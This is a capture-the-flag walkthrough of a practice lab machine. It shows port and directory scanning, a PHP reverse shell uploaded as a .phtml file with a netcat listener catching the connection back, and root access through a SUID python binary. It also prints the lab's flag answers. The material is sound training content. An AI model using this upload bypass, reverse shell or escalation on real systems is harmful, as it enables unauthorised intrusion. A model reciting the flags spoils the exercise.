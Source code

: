 # Reconnaissance

### Scan the machine, how many ports are open?
```
┌──(root💀kali)-[~]
└─# nmap -Pn <machine ip>
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```
> *Answer:* 2

### What version of Apache is running?
```
┌──(root💀kali)-[~]
└─# nmap -sV <machine ip>
...
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
...
```
> *Answer:* 2.4.29

### What service is running on port 22?
> *Answer:* ssh

### What is the hidden directory?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "http://<machine ip>/"
...
[01:06:56] 200 -  732B  - /panel/
[01:07:21] 200 -  742B  - /uploads/
...
```
> *Answer:* 


<br><br>
# Getting a shell

### user.txt
```
┌──(root💀kali)-[~]
└─# curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php --output php-reverse-shell.php
```
To gain remote access to this machine, follow these steps:
  1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
  2. Rename this file to php-reverse-shell.phtml
  3. We're now going to listen to incoming connections using netcat. Run the following command: <b>nc -lvnp 1234</b>
  4. Upload your shell and navigate to <b>http://&lt;machine ip&gt;/uploads/php-reverse-shell.phtml&nbsp;</b> - This will execute your payload
  5. You should see a connection on your netcat session
```
┌──(root💀kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.39.82] 47886
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:16:30 up 17 min,  0 users,  load average: 0.00, 0.26, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
> *Answer:* THM{y0u_g0t_a_sh3ll}


<br><br>
# Privilege escalation

### Search for files with SUID permission, which file is weird?
```
$ find / -perm -u=s -type f 2> /dev/null
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```
> *Answer:* /usr/bin/python

### root.txt
[GTFOBins](https://gtfobins.github.io/)
```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>

```
ls /root
root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n} 
```
> *Answer:* THM{pr1v1l3g3_3sc4l4t10n}

